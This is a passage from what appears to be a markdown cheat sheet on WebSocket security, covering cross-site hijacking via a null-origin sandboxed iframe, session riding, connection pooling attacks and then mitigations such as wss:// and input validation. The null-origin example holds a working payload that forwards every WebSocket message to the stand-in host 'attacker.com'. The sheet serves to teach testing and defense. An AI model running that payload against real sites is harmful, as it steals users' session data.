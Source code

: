     - **Null origin bypass**
      - Use a null origin with sandboxed iframes
      - Example HTML:
        ```html
        <iframe sandbox="allow-scripts" src="data:text/html,<script>
          var ws = new WebSocket('wss://vulnerable-website.com/socket');
          ws.onmessage = function(e) {
            fetch('https://attacker.com/log?data=' + encodeURIComponent(e.data));
          };
        </script>"></iframe>
        ```
  
  - **Subverting authorization checks**
    
    - **Session riding**
      - Maintain authorized WebSocket connection
      - Reuse connection after user permissions change
      - Example scenario:
        ```
        1. User has admin role and establishes WebSocket
        2. Admin role is revoked in the system
        3. Test if existing WebSocket still has admin privileges
        ```
    
    - **Connection pooling attacks**
      - Target applications that reuse connections between users
      - Send malicious data that affects other users' connections

- **Prevention and mitigation**
  
  - **Secure WebSocket implementation**
    
    - **Use secure WebSocket protocol**
      - Always use wss:// (WebSockets over TLS) instead of ws://
      - Implement proper certificate validation
      - Example secure connection:
        ```javascript
        // Client-side
        const socket = new WebSocket('wss://example.com/socket');
        
        // Server-side (Node.js example)
        const https = require('https');
        const fs = require('fs');
        const WebSocket = require('ws');
        
        const server = https.createServer({
          cert: fs.readFileSync('/path/to/cert.pem'),
          key: fs.readFileSync('/path/to/key.pem')
        });
        
        const wss = new WebSocket.Server({ server });
        server.listen(443);
        ```
    
    - **Input validation**
      - Validate all WebSocket message contents
      - Use schema validation for structured messages
      - Example using JSON Schema (Node.js):
        ```javascript
        const Ajv = require('ajv');
        const ajv = new Ajv();
        